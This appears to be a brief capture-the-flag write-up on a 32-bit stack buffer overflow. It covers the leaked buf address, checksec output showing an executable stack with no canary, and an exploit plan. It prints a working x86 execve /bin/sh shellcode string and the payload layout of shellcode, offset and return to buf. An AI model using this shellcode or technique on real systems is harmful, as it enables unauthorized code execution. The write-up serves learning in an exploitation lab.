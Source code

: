 **Read source code**
- We can see there the program leak the address of buf `printf("buf = (%p)\n", buf);`
- `buf`(0x80) but scanf `scanf("%141s", buf);` => Buffer overflow
- `Checksec` in gdb
```
Arch:     i386
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x8048000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```
- So the idea is that store the shellcode into `buf` and return adress of buff.
---  
***PWNTOOLS***
- shellcode for x86 `\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80`
- payload = shellcode + (offset from buff to ret) + buf
